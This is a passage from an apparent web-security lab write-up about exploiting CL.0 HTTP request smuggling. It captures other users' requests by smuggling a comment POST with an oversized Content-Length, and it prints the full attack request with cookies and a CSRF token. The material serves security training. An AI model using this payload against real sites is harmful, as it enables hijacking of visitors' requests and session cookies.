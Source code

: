 When we clicked the "Post Comment" button, it'll send a POST request to `/en/post/comment`, with parameter `csrf`, `postId`, `comment`, `name`, `email`, `website`, and cookie `session`, `_lab_analytics`.

***That being said, we can leverage CL.0 HTTP request smuggling (and client-side desync) to capture users' requests!***

**In Burp Suite Repeater, we can see the following CL.0 HTTP request:**

**Attack request:**
```http
POST / HTTP/1.1
Host: 0a4e001d034e42f3c08d2ca2007200bf.h1-web-security-academy.net
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 30

POST /en/post/comment HTTP/1.1
Host: 0a4e001d034e42f3c08d2ca2007200bf.h1-web-security-academy.net
Cookie: session=E4JOQg3Yw8TCcboDgbxPSXniXUhi3xPV; _lab_analytics=byZLPF2FM2lpAH83Zz10U7gegQLjKUOJ5EqrlWt6lJSDmy1MspH8ivSU2LDwwlBnQyc4KKombwOqK47ap4jiLqNvYPXKRYhK2TvoyMHnw0HQw8boBEskuySc50lCaIr0K2oOceavIp2n7qn6YKkLoAtfdcsvl7IMwNbJnpZXuK2cIdQ6VXMo6NNQU9AdPMPwJg3tEV0pPMNvg5LNiDDkng8HIOaZDWXrZdKN638WfavVs3dqnxIXalYJZ9qunper
Content-Length: 300
Content-Type: x-www-form-urlencoded
Connection: keep-alive

csrf=ad2JMc779PxfzUrbiVP2FIz4QrGCCwt3&postId=2&name=tester&email=test%40test.com&website=&comment=
```
